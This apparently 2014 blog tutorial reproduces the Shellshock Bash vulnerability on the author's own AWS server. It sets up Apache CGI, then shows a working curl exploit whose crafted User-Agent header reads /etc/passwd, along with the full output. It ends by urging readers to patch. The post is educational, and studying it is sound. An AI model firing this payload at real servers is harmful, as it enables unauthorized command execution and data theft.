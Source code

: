 ```yaml
---
title: Shellshock
date: 2014-09-27
---
```


When [news of Shellshock first broke](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271), the main vector of attack was any application running on an Apache server via CGI. I don't run any Apache servers anymore, and if I did I probably wouldn't be running them with CGI (just not my preference). However, I wanted to try this bug out and I didn't want to do so in a malicious manner; I simply wanted to see what it did.

Without further ado, let's hack ourselves!

First we'll go create an EC2 instance on AWS. My preference is to use Ubuntu because I know it best and I'm able to find solutions to issues I encounter very quickly.

After our instance is up and running we'll SSH into it and check if the default version of Bash is vulnerable.

{% highlight bash %}
$ ssh -l ubuntu [Your IP address] -i ~/.ssh/shellshock.pem
$ env X="() { :;} ; echo busted" /bin/bash -c "echo completed"
busted
completed
{% endhighlight %}

Oh heck yeah, it totally is.

(**Note:** I'm using an old AWS image I made a few months ago. I believe Amazon patched bash on all their default images. If Bash is already patched on your machine, my next suggestion is to find a Vagrant image that isn't patched yet. If you can't, leave a comment below. I can post a tutorial on how to compile an old, vulnerable version of Bash and replace the patched one on your box; for science!) 

Ok next step: Installing Apache and configuring it to use CGI.

{% highlight bash %}
sudo apt-get install apache2
sudo a2enmod cgi
{% endhighlight %}

That was easy. We need to tell Apache when to use CGI. We'll do that by adding the following somewhere in the config of a site in our enabled virtual hosts folder (`/etc/apache2/sites-enabled`; in our case the exact file is `/etc/apache2/sites-enabled/000-default.conf`):

{% highlight conf %}
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
<Directory "/usr/lib/cgi-bin">
  AllowOverride None
  Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
  Order allow,deny
  Allow from all
</Directory>
{% endhighlight %}

The complete Apache configuration file for the virtual host we'll be using looks like this:

{% highlight conf %}
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
  <Directory "/usr/lib/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    Order allow,deny
    Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
{% endhighlight %}

Add a file called `poc.cgi` to `/usr/lib/cgi-bin` with the following contents:

{% highlight bash %}
#!/bin/bash

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>PoC</title>'
echo '</head>'
echo '<body>'
echo '<pre>'
/usr/bin/env
echo '</pre>'
echo '</body>'
echo '</html>'

exit 0
{% endhighlight %}

**Note:** The contents of this file can be anything, as can the filename. In our case the file just needs to exist. I chose to copy the Bash script above from [https://www.invisiblethreat.ca/2014/09/cve-2014-6271/](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/) because it's an easy way to check that apache is configured correctly.

**Additional Note:** You may need to change the permissions of this file and directory. If you get a 403 error, try `sudo chmod 755 -R /usr/lib/cgi-bin`.

Now let's restart Apache.

{% highlight bash %}
sudo services apache2 restart
{% endhighlight %}

If everything went according to plan, we should be able to run this script via CGI and have the result returned to us. Let's see if that works:

{% highlight bash %}
~
❯ curl http://[Your IP Address]/cgi-bin/poc.cgi
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>PoC</title>
</head>
<body>
<pre>
SERVER_SIGNATURE=<address>Apache/2.4.7 (Ubuntu) Server at [Your IP Address] Port 80</address>

HTTP_USER_AGENT=curl/7.30.0
SERVER_PORT=80
HTTP_HOST=[Your IP Address]
DOCUMENT_ROOT=/var/www/html
SCRIPT_FILENAME=/usr/lib/cgi-bin/poc.cgi
REQUEST_URI=/cgi-bin/poc.cgi
SCRIPT_NAME=/cgi-bin/poc.cgi
REMOTE_PORT=34236
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CONTEXT_PREFIX=/cgi-bin/
PWD=/usr/lib/cgi-bin
SERVER_ADMIN=webmaster@localhost
REQUEST_SCHEME=http
HTTP_ACCEPT=*/*
REMOTE_ADDR=[Remote IP Address]
SHLVL=1
SERVER_NAME=
SERVER_SOFTWARE=Apache/2.4.7 (Ubuntu)
QUERY_STRING=
SERVER_ADDR=10.0.0.153
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
_=/usr/bin/env
</pre>
</body>
</html>
{% endhighlight %}

Awesome! Now that everything is set up, let's exploit ourselves.

{% highlight bash %}
~
❯ curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://[Your Server IP]/cgi-bin/poc.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/zsh

{% endhighlight %}

Great success! We were successfully able to run an arbitrary code execution exploit on a remote machine (that we own).

Now go patch Bash!

Resources and helpful links:

- [How to Protect your Server Against the Shellshock Bash Vulnerability](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability)
- [Everything you need to know about the Shellshock Bash bug](http://www.troyhunt.com/2014/09/everything-you-need-to-know-about.html)
- [CVE-2014-6271: BASH LETS YOU DO BAD THINGS. (SHELLSHOCK)](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/)
- [How do I secure Apache against the Bash Shellshock vulnerability?](http://security.stackexchange.com/questions/68146/how-do-i-secure-apache-against-the-bash-shellshock-vulnerability)
- [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)
- [Bash – ShellShocker – Attacks Increase in the Wild – Day 1](http://blog.sucuri.net/2014/09/bash-shellshocker-attacks-increase-in-the-wild-day-1.html)